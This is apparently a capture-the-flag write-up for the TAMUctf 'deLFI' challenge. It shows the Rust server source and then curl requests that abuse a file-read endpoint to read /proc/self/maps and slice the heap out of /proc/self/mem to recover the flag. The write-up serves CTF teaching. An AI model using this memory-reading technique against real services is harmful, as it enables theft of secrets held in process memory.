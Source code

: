 # deLFI

We found a strange webserver at http://delfi.tamuctf.com -- check it out for us?

## Solution

The website (delfi.tamuctf.com) is seemingly just a trivial LFI.  If we didn't have source we could use this to leak the binary with the provided path but....

```text
Ask the /oracle for a file, e.g., /oracle/home/delfi/bin/delfi?offset=0&size=-1.
```

Fortunately, source is provided so we don't have to reverse async rust thank god.  

```rust
use hyper::Body;
use serde_derive::*;
use std::cmp::min;
use std::convert::{Infallible, TryInto};
use std::fs::File;
use std::os::unix::fs::FileExt;
use std::path::PathBuf;
use tokio::process::Command;
use warp::filters::path::Tail;
use warp::hyper::StatusCode;
use warp::{http::Response, Filter, Reply};

#[derive(Deserialize, Serialize)]
struct FileOptions {
    offset: usize,
    size: isize,
}

#[tokio::main]
async fn main() {
    let flag = Command::new("get_flag").output().await.unwrap().stdout;

    let oracle = warp::path("oracle").and(
        warp::path::tail()
            .and(warp::query::<FileOptions>().map(Some).or_else(|_| async {
                Ok::<(Option<FileOptions>,), std::convert::Infallible>((None,))
            }))
            .map(|file: Tail, options: Option<FileOptions>| {
                let path = PathBuf::from(format!("/{}", file.as_str()));
                if path.exists() {
                    match File::open(path.clone()) {
                        Ok(f) => {
                            let (offset, size) = if let Some(options) = options {
                                (options.offset, options.size)
                            } else {
                                (0, -1)
                            };
                            println!(
                                "Reading {} with at offset {} with size {}",
                                path.display(),
                                offset,
                                size
                            );
                            let mut pos = offset;
                            // oops, chunked responses aren't a thing that exist!
                            // looks like we'll have to do it ourselves... again
                            Response::new(Body::wrap_stream(futures::stream::iter(
                                std::iter::from_fn(move || {
                                    let size = if size >= 0 {
                                        min(4096, size as usize - (pos - offset))
                                    } else {
                                        4096
                                    };
                                    if size == 0 {
                                        None
                                    } else {
                                        let mut buf = vec![0u8; size];
                                        match f.read_at(buf.as_mut(), pos.try_into().unwrap()) {
                                            Ok(s) => {
                                                if s == 0 {
                                                    None
                                                } else {
                                                    pos += s;
                                                    buf.truncate(s);
                                                    Some(buf)
                                                }
                                            }
                                            Err(e) => {
                                                eprintln!(
                                                    "Error while processing {}: {}",
                                                    path.display(),
                                                    e
                                                );
                                                None
                                            }
                                        }
                                    }
                                })
                                .map(Result::<_, Infallible>::Ok),
                            )))
                        }
                        Err(e) => {
                            eprintln!("Error while opening {}: {}", path.display(), e);
                            warp::reply::with_status(
                                warp::reply(),
                                StatusCode::INTERNAL_SERVER_ERROR,
                            )
                            .into_response()
                        }
                    }
                } else {
                    warp::reply::with_status(warp::reply(), StatusCode::NOT_FOUND).into_response()
                }
            }),
    );

    let default = warp::get().map(|| Response::builder()
        .header("Content-Type", "text/html;encoding=UTF-8")
        .body(format!(
            "Ask the <code>/oracle</code> for a file, e.g., <a href=\"/oracle{0}?offset=0&size=-1\"><code>/oracle{0}?offset=0&size=-1</code></a>.",
            std::env::current_exe().unwrap().display()
        ))
    );

    warp::serve(oracle.or(default))
        .run(([0, 0, 0, 0], 3030))
        .await;

    drop(flag);
}
```

Okay, a couple interesting things to note here and i'm just going to walk through my though process.  

1. Flag is loaded into memory from get_flag binary
2. im not gonna reverse it for the writeup because its gross and not really relevant but its a suid binary that reads /root/flag and writes it to stdout
3. Per the [rust docs](https://doc.rust-lang.org/std/process/struct.Output.html) std::process::Output.stdout is a Vec<u8> and thus on the heap.
4. wait a minute linux maps process memory to /proc/<pid>/mem (or /proc/self/mem for the executing process)
5. To use /proc/self/mem you need to make sure to only access mapped memory.  
```text
❯ curl -s "delfi.tamuctf.com/oracle/proc/self/maps" | strings | grep heap | cut -d' ' -f1
562888b53000-562888bb6000
```
Converting the base to decimal and then subtracting the end from the base to get the length (and converting to decimal) gets us 94732092256256, 405504.  If you'll remember from earlier, the LFI function takes offset and size functions which means we will be able to trivially slice just the heap.  

```text
❯ curl -s "delfi.tamuctf.com/oracle/proc/self/mem?offset=94732092256256&size=405504" | strings | grep -E "gigem{.*}"
gigem{d4ng3r0u5ly_3xfil7r47in6_l0c4l_fil3_includ35}
```
